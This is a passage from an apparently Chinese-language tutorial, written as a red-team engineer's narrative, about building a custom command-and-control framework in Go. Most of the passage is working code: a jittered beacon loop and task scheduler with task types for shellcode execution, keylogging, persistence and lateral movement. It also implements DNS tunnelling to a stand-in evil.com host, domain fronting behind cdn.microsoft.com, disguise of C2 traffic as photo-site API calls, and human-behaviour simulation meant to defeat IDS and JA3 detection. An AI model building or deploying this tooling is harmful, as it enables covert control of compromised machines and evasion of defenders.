	b.running = true
	
	for {
		select {
		case <-ctx.Done():
			return
		default:
			b.beaconOnce(ctx)
			b.sleep(ctx)
		}
	}
}

// beaconOnce 执行一次心跳
func (b *Beacon) beaconOnce(ctx context.Context) {
	// 1. 收集待上传的结果
	results := b.taskHandler.GetPendingResults()
	
	// 2. 发送心跳，获取任务
	resp, err := b.transporter.Heartbeat(&HeartbeatRequest{
		AgentInfo: b.getAgentInfo(),
		Results:   results,
	})
	
	if err != nil {
		b.consecutiveFail++
		b.handleFailure(ctx, err)
		return
	}
	
	// 3. 重置失败计数
	b.consecutiveFail = 0
	
	// 4. 处理服务端下发的任务
	for _, task := range resp.Tasks {
		go b.taskHandler.Handle(task)
	}
	
	b.lastHeartbeat = time.Now()
}

// sleep 心跳间隔，带抖动
func (b *Beacon) sleep(ctx context.Context) {
	// 计算带抖动的间隔
	jitterDuration := time.Duration(float64(b.interval) * b.jitter)
	// 随机 ± jitterDuration
	offset := time.Duration(rand.Int63n(int64(jitterDuration*2))) - jitterDuration
	interval := b.interval + offset
	
	// 连续失败时，指数退避
	if b.consecutiveFail > 0 {
		backoff := time.Duration(1<<uint(b.consecutiveFail)) * b.interval
		if backoff > 5*time.Minute {
			backoff = 5 * time.Minute
		}
		interval = backoff
	}
	
	select {
	case <-ctx.Done():
	case <-time.After(interval):
	}
}

// handleFailure 处理心跳失败
func (b *Beacon) handleFailure(ctx context.Context, err error) {
	if b.consecutiveFail >= b.maxRetries {
		// 连续失败超过阈值，切换备用通道
		b.switchChannel(ctx)
	}
}
```

> 💡 **心跳抖动（Jitter）为什么重要？**
> 假设你的Agent每5秒发一次心跳，流量是这样的：
> ```
> 0s ---- 5s ---- 10s ---- 15s ---- 20s ----
> ```
> 这种"完全规律"的流量，蓝队的IDS/流量分析设备一抓一个准。
> 因为正常用户的流量不会这么规律。
>
> 加了抖动之后：
> ```
> 0s -- 4s --- 7s ---- 12s --- 16s ---- 21s
> ```
> 流量看起来"不那么规律"，更接近正常用户的浏览行为。
>
> CS的Beacon也支持Jitter，默认是0%（固定间隔），实战中一定要加Jitter。

### 2.3 任务调度：生产者-消费者模型

C2的任务调度，本质上是一个"生产者-消费者"模型。

```
📦 任务调度的流程：

【生产者】
- 操作员通过CLI/Web UI下发任务 → 任务存到数据库
- 任务状态：pending（待执行）

【消费者】
- Agent心跳时，拉取自己的pending任务
- 执行任务
- 任务状态：running → done/failed
- 回传结果，存到数据库

【调度器】
- 管理任务的生命周期
- 处理任务超时
- 处理任务重试
- 处理任务优先级
```

任务调度的核心代码：

```go
// internal/server/scheduler.go
package server

import (
	"context"
	"time"
)

type Scheduler struct {
	store      Store
	queue      TaskQueue
	dispatcher *Dispatcher
}

type Task struct {
	ID          string      `json:"id"`
	AgentID     string      `json:"agent_id"`
	Type        TaskType    `json:"type"`        // exec, upload, download, port_forward...
	Payload     interface{} `json:"payload"`     // 任务参数
	Priority    int         `json:"priority"`    // 优先级 0-9，0最高
	Status      TaskStatus  `json:"status"`      // pending, running, done, failed
	Timeout     time.Duration `json:"timeout"`
	Retries     int         `json:"retries"`
	MaxRetries  int         `json:"max_retries"`
	CreatedAt   time.Time   `json:"created_at"`
	ExecutedAt  *time.Time  `json:"executed_at"`
	FinishedAt  *time.Time  `json:"finished_at"`
}

// SubmitTask 操作员下发任务
func (s *Scheduler) SubmitTask(ctx context.Context, task *Task) error {
	task.Status = StatusPending
	task.CreatedAt = time.Now()
	
	// 存到数据库
	if err := s.store.SaveTask(task); err != nil {
		return err
	}
	
	// 推到消息队列
	s.queue.Push(task.AgentID, task)
	
	return nil
}

// GetPendingTasks Agent心跳时，拉取待执行任务
func (s *Scheduler) GetPendingTasks(agentID string) ([]*Task, error) {
	tasks, err := s.queue.Pop(agentID, 10) // 一次最多拉10个
	if err != nil {
		return nil, err
	}
	
	// 更新任务状态为running
	now := time.Now()
	for _, t := range tasks {
		t.Status = StatusRunning
		t.ExecutedAt = &now
		s.store.SaveTask(t)
	}
	
	return tasks, nil
}

// SubmitResult Agent回传结果
func (s *Scheduler) SubmitResult(result *Result) error {
	now := time.Now()
	
	// 更新任务状态
	task, _ := s.store.GetTask(result.TaskID)
	if task != nil {
		if result.Error != "" {
			task.Status = StatusFailed
			// 失败重试
			if task.Retries < task.MaxRetries {
				task.Retries++
				task.Status = StatusPending
				s.queue.Push(task.AgentID, task)
			}
		} else {
			task.Status = StatusDone
		}
		task.FinishedAt = &now
		s.store.SaveTask(task)
	}
	
	// 保存结果
	return s.store.SaveResult(result)
}

// 清理超时任务（后台goroutine）
func (s *Scheduler) cleanTimeoutTasks(ctx context.Context) {
	ticker := time.NewTicker(30 * time.Second)
	defer ticker.Stop()
	
	for {
		select {
		case <-ctx.Done():
			return
		case <-ticker.C:
			s.store.CleanTimeoutTasks(30 * time.Minute)
		}
	}
}
```

任务类型设计：

```go
// pkg/types/task.go
package types

type TaskType string

const (
	TaskExec         TaskType = "exec"          // 执行命令
	TaskExecShellcode TaskType = "exec_shellcode" // 执行shellcode
	TaskUpload       TaskType = "upload"        // 上传文件
	TaskDownload     TaskType = "download"      // 下载文件
	TaskPortForward  TaskType = "port_forward"  // 端口转发
	TaskSocks        TaskType = "socks"         // SOCKS代理
	TaskReverseProxy TaskType = "reverse_proxy" // 反向代理
	TaskPersist      TaskType = "persist"       // 权限维持
	TaskLateral      TaskType = "lateral"       // 横向移动
	TaskScreenshot   TaskType = "screenshot"    // 截屏
	TaskKeylog       TaskType = "keylog"        // 键盘记录
	TaskBOF          TaskType = "bof"           // 执行BOF
	TaskPlugin       TaskType = "plugin"        // 执行插件
	TaskExit         TaskType = "exit"          // 退出Agent
)
```

### 2.4 插件系统：让C2可扩展

插件系统是C2框架最核心的设计之一。

没有插件系统，每加一个功能都要改C2的源码，维护成本高，也不灵活。
有了插件系统，新功能以插件形式加入，不动C2核心代码。

```
🧩 插件系统的设计：

【插件类型】
1. Go原生插件
   - 用Go的plugin包加载（.so/.dll文件）
   - 性能好，但需要预编译
   - 适合复杂功能

2. Lua脚本插件
   - 用Lua脚本写插件
   - 用gopher-lua解释执行
   - 开发快，热加载
   - 适合简单功能

3. BOF插件
   - 加载BOF（COFF文件）在Agent进程内执行
   - 隐蔽性高
   - 适合后渗透操作

【插件接口】
插件要实现统一的接口，方便管理：
```

```go
// internal/plugin/interface.go
package plugin

import "context"

// Plugin 插件接口
type Plugin interface {
	// 插件元信息
	Name() string
	Version() string
	Author() string
	Description() string
	
	// 插件生命周期
	Init(ctx context.Context, config map[string]interface{}) error
	Destroy() error
	
	// 执行
	Execute(ctx context.Context, args map[string]interface{}) (*Result, error)
	
	// 帮助
	Help() string
}

type Result struct {
	Success bool        `json:"success"`
	Data    interface{} `json:"data"`
	Error   string      `json:"error,omitempty"`
}

// PluginManager 插件管理器
type Manager struct {
	plugins map[string]Plugin
	loaders []Loader
}

// Loader 插件加载器接口
type Loader interface {
	Load(path string) (Plugin, error)
	Supported() string // "go", "lua", "bof"
}

// RegisterPlugin 注册插件
func (m *Manager) RegisterPlugin(p Plugin) error {
	name := p.Name()
	if _, exists := m.plugins[name]; exists {
		return fmt.Errorf("plugin %s already registered", name)
	}
	m.plugins[name] = p
	return nil
}

// Execute 执行插件
func (m *Manager) Execute(ctx context.Context, name string, args map[string]interface{}) (*Result, error) {
	p, exists := m.plugins[name]
	if !exists {
		return nil, fmt.Errorf("plugin %s not found", name)
	}
	return p.Execute(ctx, args)
}

// ListPlugins 列出所有插件
func (m *Manager) ListPlugins() []PluginInfo {
	var list []PluginInfo
	for _, p := range m.plugins {
		list = append(list, PluginInfo{
			Name:        p.Name(),
			Version:     p.Version(),
			Author:      p.Author(),
			Description: p.Description(),
		})
	}
	return list
}
```

Lua插件示例：

```lua
-- plugins/lua/port_scan.lua
-- 端口扫描插件
-- 作者：阿杰

local plugin = {}

function plugin.Name()
    return "port_scan"
end

function plugin.Version()
    return "1.0.0"
end

function plugin.Author()
    return "ajie"
end

function plugin.Description()
    return "端口扫描插件，扫描指定IP的端口"
end

function plugin.Init(config)
    -- 初始化
    plugin.timeout = config.timeout or 2
    plugin.threads = config.threads or 100
    return true
end

function plugin.Execute(args)
    local ip = args.ip
    local ports = args.ports  -- "1-1000" or "80,443,8080"
    
    if not ip or not ports then
        return {success = false, error = "missing ip or ports"}
    end
    
    -- 调用Go底层函数（通过gopher-lua的桥接）
    local results = go.scan_ports(ip, ports, plugin.threads, plugin.timeout)
    
    return {
        success = true,
        data = {
            ip = ip,
            open_ports = results
        }
    }
end

function plugin.Help()
    return [[
端口扫描插件

用法：
  plugin execute port_scan --ip 1.2.3.4 --ports 1-1000

参数：
  ip     - 目标IP
  ports  - 端口范围，如 1-1000 或 80,443,8080

示例：
  plugin execute port_scan --ip 192.168.1.1 --ports 1-65535
]]
end

return plugin
```

> 💡 **为什么用Lua做插件？**
> 1. **轻量**：Lua解释器只有几百KB，嵌入到C2里几乎不增加体积
> 2. **快**：Lua的执行速度在脚本语言里算快的
> 3. **安全**：Lua是沙箱执行，不会影响C2主进程
> 4. **热加载**：Lua插件可以热加载，不用重启C2
> 5. **易学**：Lua语法简单，开发插件快
>
> 很多大名鼎鼎的工具都用Lua做插件，比如Nmap的NSE脚本、Wireshark的协议解析、CS的部分功能等。

### 2.5 多协议支持

实战中，光HTTP/HTTPS是不够的。

```
🌐 C2的通信协议，为什么要支持多种？

【HTTP/HTTPS】
- 最常用，最隐蔽（混在正常Web流量里）
- 但是有些环境出网限制严格，HTTP被禁

【DNS】
- 几乎所有环境都允许DNS出网
- DNS隧道是绕过出网限制的利器
- 缺点：带宽小，速度慢

【ICMP】
- 极端环境，连DNS都被禁了
- ICMP（ping）一般不会被禁
- 缺点：带宽更小，特征明显

【TCP】
- 直连模式，不走Web
- 速度快，但特征明显
- 适合内网横向时用

【WebSocket】
- 长连接，实时性好
- 伪装成正常Web流量
- 适合需要实时交互的场景
```

每个协议都是一个独立的Listener，实现统一的接口：

```go
// internal/protocol/listener.go
package protocol

import (
	"context"
	"net"
)

// Listener 监听器接口
type Listener interface {
	// 启动监听
	Start(ctx context.Context) error
	// 停止监听
	Stop() error
	// 监听器名称
	Name() string
	// 监听地址
	Address() string
	// 处理连接
	HandleConn(conn net.Conn)
}

// HTTPListener HTTP监听器
type HTTPListener struct {
	addr   string
	server *http.Server
}

func (l *HTTPListener) Start(ctx context.Context) error {
	l.server = &http.Server{Addr: l.addr, Handler: l.routes()}
	go func() {
		<-ctx.Done()
		l.server.Shutdown(context.Background())
	}()
	return l.server.ListenAndServe()
}

// DNSListener DNS监听器
type DNSListener struct {
	addr   string
	server *dns.Server
}

func (l *DNSListener) Start(ctx context.Context) error {
	// DNS服务器的实现
	// 监听53端口，解析DNS查询
	// 把查询的"域名"当作Agent的数据
	// 把响应的"记录"当作服务端的数据
	// ...
	return nil
}
```

DNS隧道的实现思路：

```
🔬 DNS隧道原理：

Agent要发送数据 "whoami" 给服务端：
1. 把 "whoami" 编码成子域名：whoami.agent1.evil.com
2. 向DNS服务器查询 whoami.agent1.evil.com 的A记录
3. DNS查询最终到达我们控制的DNS服务器（也就是C2服务端）
4. C2服务端解析子域名，拿到数据 "whoami"
5. C2执行命令，结果 "root" 编码成IP：1.2.3.4 (root的某种编码)
6. C2返回DNS响应：whoami.agent1.evil.com A 1.2.3.4
7. Agent收到DNS响应，解码IP，拿到结果 "root"

整个过程，看起来就是正常的DNS查询，蓝队很难发现。

局限性：
- 带宽小（每次DNS查询最多几百字节）
- 速度慢（每次要等DNS响应）
- 适合小数据量传输，不适合大文件

但是！DNS隧道是"最后的救命稻草"，当其他协议都被禁的时候，DNS几乎不会被禁。
```

---

## 🌊 流量被检测：第一次瓶颈

### 3.1 红队演练翻车

C2框架基本成型之后，我们用它在公司内部的红队演练里测试。

第一次测试，很顺利，Agent上线、执行命令、回传结果，都没问题。

但是第二次测试，翻车了。

```
😱 翻车现场：

【背景】
公司组织内部红蓝对抗，我们红队用自研C2打蓝队。
蓝队用的是公司自己的EDR + 流量分析设备。

【第一天】
- Agent成功上线
- 执行了几个命令，没问题
- 心想：自研C2，稳！

【第二天】
- 蓝队发来告警："检测到C2通信"
- 我：？？？
- 蓝队发来了分析报告：
  "我们发现某台机器，每隔10秒（±3秒）会访问一个IP，
   该IP不属于公司业务范围，
   流量特征与已知C2框架吻合，
   判定为C2通信。"

【结果】
- Agent被蓝队清理
- 我们这次演练，相当于失败了
```

我看着蓝队的分析报告，心情很复杂。

```
😔 我的心情：

1. 震惊：我的C2，这么快就被检测了？
2. 失败感：辛辛苦苦开发的C2，被蓝队秒杀
3. 反思：哪里出了问题？
4. 不服：我一定要搞明白，到底哪里暴露了
```

### 3.2 流量分析：找问题

我跟蓝队的同事要来了完整的流量分析报告，开始研究。

```
🔍 蓝队的检测逻辑：

【检测点1：流量特征】
- 我的C2用的是HTTPS，流量是加密的
- 蓝队看不到明文，但是看到了TLS握手
- TLS握手里的SNI（Server Name Indication）暴露了真实域名
- SNI是 evil-c2.attacker.com
- 这个域名不在公司业务范围里
- 触发告警：访问可疑域名

【检测点2：行为特征】
- 心跳间隔10秒 ± 30%（3秒抖动）
- 看起来有抖动，但是抖动范围固定
- 蓝队的流量分析算法，识别出了"准周期性"流量
- 触发告警：可疑的C2行为模式

【检测点3：流量大小】
- 每次心跳的请求/响应大小都很小（几百字节）
- 而且大小相对固定
- 正常用户访问网站，流量大小是波动的
- 触发告警：可疑的固定小流量通信

【检测点4：JA3指纹】
- JA3是TLS客户端握手的指纹
- 不同的TLS库、不同的版本，JA3不一样
- 我的Agent用的是Go的crypto/tls，JA3指纹跟正常浏览器不一样
- 蓝队的设备里有JA3指纹库，识别出"非浏览器TLS流量"
- 触发告警：可疑的TLS指纹
```

> 💡 **JA3指纹是什么？**
> JA3是一种TLS客户端指纹技术。
> 它把TLS握手过程中的几个字段（版本、加密套件、扩展等）做哈希，生成一个指纹。
> 不同的TLS库（Chrome、Firefox、Go、Python、curl...）的JA3指纹不一样。
> 蓝队的设备可以基于JA3，识别出"这个TLS流量不是浏览器发的"。
> 这是检测C2流量的重要手段。
>
> 绕过JA3指纹的方法：
> 1. 用uTLS库伪装成浏览器的JA3
> 2. 用真实的浏览器做流量代理
> 3. 不用TLS，用其他协议

我看完报告，跟老吴讨论：

```
👨‍💻 我：吴哥，我的C2被蓝队检测了，问题出在四个地方：
       1. SNI暴露真实域名
       2. 心跳的"准周期性"
       3. 流量大小固定
       4. JA3指纹不像浏览器

👨‍💼 老吴：正常。这四个问题，是所有C2都会遇到的。
        CS也会遇到同样的问题。
        关键是怎么解决。
        
        这就是'流量隐蔽'要解决的问题。
        我们来一个一个攻克。
```

### 3.3 流量隐蔽：四层防御

老吴给我画了一张图，把流量隐蔽分成了四层：

**图128-2 C2流量隐蔽四层防御模型**



```
🎯 流量隐蔽的四层防御：

【第一层：基础通信】
- 多协议支持：HTTP、DNS、TCP、ICMP
- 多通道冗余：主通道被检测，自动切备用通道
- 断线重连：网络抖动不会导致Agent下线

【第二层：流量加密】
- HTTPS/TLS：基础加密，防止明文被抓包
- uTLS：伪装JA3指纹，看起来像浏览器
- 合法证书：用Let's Encrypt申请真实证书，不用自签名

【第三层：协议伪装】
- 域前置（Domain Fronting）：用CDN隐藏真实C2
- 自定义协议：把C2流量伪装成正常业务流量
- DNS over HTTPS：DNS流量也加密

【第四层：行为模拟】
- 心跳间隔：不只是抖动，而是模拟真实用户行为
- 流量大小：加入随机填充，让流量大小波动
- 访问模式：模拟浏览器的访问序列（先访问首页，再访问资源...）
```

接下来，我一个个攻克。

---

## 🎭 流量伪装：与蓝队的猫鼠游戏

### 4.1 第一战：干掉SNI暴露

SNI（Server Name Indication）是TLS握手时，客户端告诉服务器"我要访问哪个域名"。

问题在于，SNI是明文传输的（TLS 1.2及之前）。

```
🔬 SNI暴露问题：

Agent要连接C2服务器 c2.evil.com
TLS握手时，Agent发送：
  ClientHello {
    SNI: c2.evil.com   ← 明文！蓝队能看到！
    ...
  }

蓝队的流量分析设备一看：
  "有机器在访问 c2.evil.com，这个域名不在业务范围里，可疑！"
  
然后告警。
```

解决方案有几个：

```
🛡️ 解决SNI暴露的方案：

【方案1：域前置 Domain Fronting】
- TLS握手的SNI用一个"合法"域名（比如 cdn.microsoft.com）
- HTTP请求的Host头用真实的C2域名（比如 c2.evil.com）
- 流量经过CDN，CDN根据Host头转发到真实C2
- 蓝队只能看到SNI（合法域名），看不到Host（真实C2）

【方案2：ESNI/ECH】
- ESNI（Encrypted SNI）把SNI加密
- TLS 1.3的特性
- 但是目前支持的服务器不多

【方案3：不使用SNI】
- 一个IP只部署一个域名，不需要SNI
- 但是这样IP暴露了，而且容易被识别

【方案4：用合法域名做C2】
- 注册一个看起来"合法"的域名
- 比如 update-microsoft.com（假的，举例）
- 但是这种域名容易被品牌保护机构投诉
```

我们选择了"域前置"。

### 4.2 域前置：用CDN当掩护

域前置（Domain Fronting）是C2流量隐蔽的经典技术。

```
🎯 域前置原理：

【环境】
- C2真实域名：c2.evil.com（隐藏起来）
- 域前置域名：cdn.microsoft.com（看起来合法）
- C2服务器托管在某个CDN后面

【流程】
1. Agent要连接C2
2. Agent做TLS握手，SNI写 cdn.microsoft.com（合法域名）
3. CDN看到SNI，放行TLS连接
4. TLS连接建立后，发HTTP请求
5. HTTP请求的Host头写 c2.evil.com（真实C2域名）
6. CDN看到Host头，把请求转发到真实的C2服务器
7. C2服务器响应，也经过CDN返回给Agent

【效果】
- 蓝队只能看到SNI：访问 cdn.microsoft.com（合法！）
- 蓝队看不到Host：c2.evil.com（被TLS加密了）
- 蓝队以为目标机器在访问微软的CDN，不会告警
```

**图128-3 域前置工作原理**



代码实现：

```go
// internal/protocol/domain_fronting.go
package protocol

import (
	"crypto/tls"
	"net/http"
	"net/url"
)

// DomainFrontingTransport 域前置传输
type DomainFrontingTransport struct {
	frontDomain  string // 前置域名（合法，用于SNI）
	realDomain   string // 真实域名（用于Host头）
	proxyURL     string // CDN的代理地址
}

func NewDomainFrontingTransport(front, real string) *DomainFrontingTransport {
	return &DomainFrontingTransport{
		frontDomain: front,
		realDomain:  real,
	}
}

func (t *DomainFrontingTransport) RoundTrip(req *http.Request) (*http.Response, error) {
	// 1. TLS握手时，SNI用前置域名
	// 通过自定义DialTLS实现
	dialer := &tls.Dialer{
		Config: &tls.Config{
			ServerName: t.frontDomain, // SNI = 前置域名
		},
	}
	
	// 2. 连接到CDN（用前置域名的IP）
	conn, err := dialer.Dial("tcp", t.frontDomain+":443")
	if err != nil {
		return nil, err
	}
	
	// 3. HTTP请求的Host头用真实域名
	req.Host = t.realDomain
	
	// 4. 通过这个连接发送请求
	transport := &http.Transport{
		DialTLS: func(network, addr string) (net.Conn, error) {
			return conn, nil
		},
	}
	
	return transport.RoundTrip(req)
}

// 使用示例
func ExampleDomainFronting() {
	transport := NewDomainFrontingTransport(
		"cdn.microsoft.com",      // 前置域名（蓝队看到这个）
		"c2.evil.com",            // 真实域名（CDN转发到这个）
	)
	
	client := &http.Client{
		Transport: transport,
	}
	
	// 发送请求
	// 蓝队看到：访问 cdn.microsoft.com
	// 实际到达：c2.evil.com
	resp, _ := client.Get("https://cdn.microsoft.com/api/heartbeat")
	_ = resp
}
```

> 💡 **域前置的现状**
> 域前置曾经是C2隐蔽的"杀手锏"，但是2018年之后，主流CDN（Google、Amazon、Azure等）陆续封堵了域前置。
> 原理是：CDN现在会检查SNI和Host是否一致，不一致就拒绝。
>
> 但是域前置的"变种"依然有用：
> 1. **域借用**：找同一CDN上的其他客户域名做前置
> 2. **CDN源站直连**：绕过CDN，直接连源站
> 3. **自定义CDN**：自己搭CDN，自己做前置
>
> 域前置的核心思想——"用合法流量做掩护"——依然是C2隐蔽的核心思路。

### 4.3 自定义协议：伪装成正常业务

域前置解决了SNI问题，但是还有"行为特征"和"流量大小"的问题。

蓝队的设备会发现："这个机器虽然访问的是合法域名，但是访问模式不像正常用户。"

解决方法是：**把C2流量伪装成正常的业务流量**。

```
🎭 流量伪装的思路：

【伪装成什么？】
1. 伪装成正常的Web浏览
   - 模拟浏览器的请求头
   - 模拟浏览器的访问序列
   - 流量大小像正常网页

2. 伪装成API调用
   - 伪装成某个APP的后台API调用
   - 请求/响应格式像JSON API

3. 伪装成文件下载
   - 把C2数据伪装成图片、视频
   - 大文件分块传输

4. 伪装成CDN流量
   - 伪装成访问CDN的资源
   - 看起来像加载网页资源
```

我们选择把C2流量伪装成一个"图片分享网站"的API调用。

```
🎨 我们的伪装方案：

【伪装场景】
- 假装是一个图片分享网站（类似Flickr/小红书）
- C2服务器假装是这个图片网站的API服务器
- Agent假装是这个图片网站的客户端

【API设计】
- 注册：POST /api/v1/auth/login （登录，实际是Agent注册）
- 心跳：GET /api/v1/feed/recommend （获取推荐，实际是心跳+拉任务）
- 上传结果：POST /api/v1/photo/upload （上传照片，实际是回传结果）
- 下载任务：GET /api/v1/photo/{id} （下载照片，实际是拉取任务数据）

【数据伪装】
- 请求和响应，都是JSON格式
- 字段名用图片网站的字段（photo_id, user_id, image_url...）
- 真正的C2数据，藏在某个字段里（加密后Base64编码）
- 看起来就是一个正常的图片API调用
```

自定义协议的实现：

```go
// internal/protocol/disguise.go
package protocol

import (
	"encoding/base64"
	"encoding/json"
	"math/rand"
	"net/http"
	"time"
)

// DisguiseTransport 流量伪装传输
type DisguiseTransport struct {
	serverURL  string
	apiKey     string // 用于认证的key
	userAgents []string // 模拟多种浏览器
}

// HeartbeatRequest 伪装成"获取推荐图片"的请求
type HeartbeatRequest struct {
	UserID    string `json:"user_id"`     // 实际是AgentID
	Timestamp int64  `json:"timestamp"`
	ClientInfo struct {
		OS        string `json:"os"`
		AppVer    string `json:"app_ver"`
		DeviceID  string `json:"device_id"`
	} `json:"client_info"`
	// 真正的C2数据，加密后藏在这里
	EncryptedData string `json:"recommend_token"` 
}

// HeartbeatResponse 伪装成"推荐图片列表"的响应
type HeartbeatResponse struct {
	Code int `json:"code"`
	Data struct {
		Photos []struct {
			PhotoID    string `json:"photo_id"`
			ImageURL   string `json:"image_url"`
			LikeCount  int    `json:"like_count"`
			// 真正的任务数据，加密后藏在这里
			EncryptedTask string `json:"caption"` 
		} `json:"photos"`
		NextCursor string `json:"next_cursor"`
	} `json:"data"`
}

func (t *DisguiseTransport) Heartbeat(req *HeartbeatRequest) (*HeartbeatResponse, error) {
	// 1. 加密真实的C2数据
	encryptedData := t.encrypt(req.EncryptedData)
	req.EncryptedData = base64.StdEncoding.EncodeToString(encryptedData)
	
	// 2. 序列化成JSON
	body, _ := json.Marshal(req)
	
	// 3. 构造HTTP请求，伪装成图片网站的API调用
	httpReq, _ := http.NewRequest("GET", t.serverURL+"/api/v1/feed/recommend", 
		bytes.NewReader(body))
	httpReq.Header.Set("Content-Type", "application/json")
	httpReq.Header.Set("User-Agent", t.randomUA()) // 随机UA
	httpReq.Header.Set("X-App-Version", "3.2.1")
	httpReq.Header.Set("X-Device-ID", generateDeviceID())
	httpReq.Header.Set("Authorization", "Bearer "+t.apiKey)
	
	// 4. 发送请求
	httpResp, err := http.DefaultClient.Do(httpReq)
	if err != nil {
		return nil, err
	}
	defer httpResp.Body.Close()
	
	// 5. 解析响应
	var resp HeartbeatResponse
	json.NewDecoder(httpResp.Body).Decode(&resp)
	
	// 6. 解密任务数据
	for i, photo := range resp.Data.Photos {
		if photo.EncryptedTask != "" {
			decrypted, _ := base64.StdEncoding.DecodeString(photo.EncryptedTask)
			resp.Data.Photos[i].EncryptedTask = string(t.decrypt(decrypted))
		}
	}
	
	return &resp, nil
}

// randomUA 随机User-Agent
func (t *DisguiseTransport) randomUA() string {
	// 多种浏览器UA，模拟真实用户
	if len(t.userAgents) == 0 {
		t.userAgents = []string{
			"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
			"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
			"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0",
			"Mozilla/5.0 (iPhone; CPU iPhone OS 16_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.6 Mobile/15E148 Safari/604.1",
			// ...更多UA
		}
	}
	return t.userAgents[rand.Intn(len(t.userAgents))]
}
```

### 4.4 行为模拟：让流量像人

最后一个难关：行为模拟。

蓝队的设备会分析流量的"行为模式"。即使你伪装成了图片网站，但是如果你"每10秒访问一次"，这也不像正常用户。

正常用户的行为是什么样的？

```
🤔 正常用户的行为模式：

【浏览行为】
- 打开网站 → 看几个页面 → 关闭
- 间隔不规律，几秒到几分钟都有
- 有时候会停下来看（没有请求）
- 有时候会快速点击（多个请求）

【流量大小】
- 首页：几十KB（HTML+CSS+JS）
- 图片：几十KB到几MB
- API调用：几百字节到几KB
- 大小波动很大，不固定

【时间分布】
- 工作时间：访问多
- 午饭时间：访问少
- 下班后：访问少
- 半夜：几乎不访问

【访问序列】
- 先访问首页
- 再访问具体内容
- 中间可能跳转到其他页面
- 不是完全随机
```

我们的Agent要模拟这种行为：

```go
// internal/agent/behavior.go
package agent

import (
	"math/rand"
	"time"
)

// BehaviorSimulator 行为模拟器
type BehaviorSimulator struct {
	// 用户行为画像
	activeHours    [24]float64 // 每个小时的活跃度（0-1）
	sessionLength  time.Duration // 一次会话的长度
	pagesPerSession int          // 一次会话访问几个页面
}

// NewHumanBehavior 创建一个"人类行为"模拟器
func NewHumanBehavior() *BehaviorSimulator {
	return &BehaviorSimulator{
		// 模拟一个"上班族"的活跃度
		// 9-12点活跃，14-18点活跃，其他时间不活跃
		activeHours: [24]float64{
			0.05, 0.02, 0.01, 0.01, 0.02, 0.05, // 0-5点
			0.1, 0.2, 0.5, 0.9, 0.95, 0.9,     // 6-11点
			0.7, 0.3, 0.6, 0.85, 0.9, 0.85,   // 12-17点
			0.6, 0.4, 0.3, 0.2, 0.1, 0.05,     // 18-23点
		},
		sessionLength: 5 * time.Minute,
		pagesPerSession: 8,
	}
}

// NextHeartbeatTime 计算下一次心跳的时间
func (b *BehaviorSimulator) NextHeartbeatTime() time.Duration {
	hour := time.Now().Hour()
	activeRate := b.activeHours[hour]
	
	// 基础间隔，根据活跃度调整
	// 活跃度高 → 间隔短（更像正常用户）
	// 活跃度低 → 间隔长（避免在半夜频繁访问）
	baseInterval := time.Duration(60/activeRate) * time.Second
	if baseInterval > 30*time.Minute {
		baseInterval = 30 * time.Minute
	}
	
	// 加随机抖动
	jitter := time.Duration(rand.Int63n(int64(baseInterval) / 2))
	interval := baseInterval + jitter
	
	return interval
}

// ShouldBurst 是否应该"突发"访问（模拟用户快速点击）
func (b *BehaviorSimulator) ShouldBurst() bool {
	// 20%的概率突发访问
	return rand.Float64() < 0.2
}

// BurstCount 突发访问的次数
func (b *BehaviorSimulator) BurstCount() int {
	return rand.Intn(5) + 2 // 2-6次
}

// PaddingSize 给流量加随机填充，让流量大小波动
func (b *BehaviorSimulator) PaddingSize() int {
	// 随机返回1KB-10KB的填充大小
	return rand.Intn(10240) + 1024
}
```

加了行为模拟之后，Agent的流量看起来更像人了：

```
📊 改造前后的流量对比：

【改造前】
- 每10秒（±3秒）访问一次
- 每次请求/响应大小固定
- UA固定
- 24小时均匀访问
→ 蓝队：这是C2！

【改造后】
- 访问间隔：3秒 - 5分钟（随机，符合活跃度）
- 偶尔突发访问（连续几次）
- 请求/响应大小波动（1KB-50KB）
- UA随机变化
- 工作时间访问多，半夜几乎不访问
→ 蓝队：这看起来像个正常用户在刷图片网站
```

把流量隐蔽做完之后，我们又跟蓝队做了一次对抗测试。

```
🎉 对抗测试结果：

【第一轮】
- Agent上线，蓝队没检测到
- 持续3天，蓝队没检测到
- 蓝队事后复盘：流量看起来像正常用户访问图片网站

【第二轮】
- 蓝队主动来找，启动了"主动威胁狩猎"
- 找了2天，终于在流量里发现了"可疑模式"
- 但是无法100%确认是C2
- 蓝队的结论："疑似C2通信，建议关注"

【总结】
虽然最终被蓝队"怀疑"了，但是：
1. 没有被秒杀（之前是1天就被检测，现在3天没被检测）
2. 蓝队无法100%确认（从"判定C2"变成"疑似C2"）
3. 给红队争取了足够的操作时间

这就是流量隐蔽的价值——不是"永远不被发现"，而是"延迟被发现的时间"。
```

> 💡 **流量隐蔽的本质**
> 流量隐蔽不是"绝对隐蔽"，而是"提高检测成本"。
> 蓝队要检测你的C2，需要：
> 1. 更精细的流量分析算法
> 2. 更多的计算资源
> 3. 更专业的人员
>
> 当检测成本高到一定程度，蓝队就只能"疑似"，无法"确认"。
> 这就给了红队足够的操作窗口。
>
> 这就是攻防博弈的本质——**比谁的成本更低，比谁的速度更快**。

### 4.5 DNS over HTTPS：最后的底牌

除了HTTP/HTTPS，我们还实现了DNS over HTTPS（DoH）作为备用通道。

```
🤔 为什么要DoH？

【场景】
- 有些环境，HTTP/HTTPS被严格限制
- 但是DNS几乎不会被禁（不然上网都上不了）
- 所以DNS隧道是"最后的底牌"

【传统DNS隧道的问题】
- DNS查询是明文的
- 蓝队能看到你查询的域名（c2.evil.com这种）
- 容易被检测

【DoH的优势】
- DNS查询通过HTTPS加密
- 蓝队看不到你查的什么域名
- 看起来就是普通的HTTPS流量
```

DoH的实现思路：

```go
// internal/protocol/doh.go
package protocol

import (
	"encoding/base64"
	"encoding/binary"
	"fmt"
	"io"
	"net/http"
	"strings"
)

// DoHTransport DNS over HTTPS传输
type DoHTransport struct {
	dohServer   string // DoH服务器，如 https://dns.google/dns-query
	c2Domain    string // C2的域名
}

func NewDoHTransport(dohServer, c2Domain string) *DoHTransport {
	return &DoHTransport{
		dohServer: dohServer,
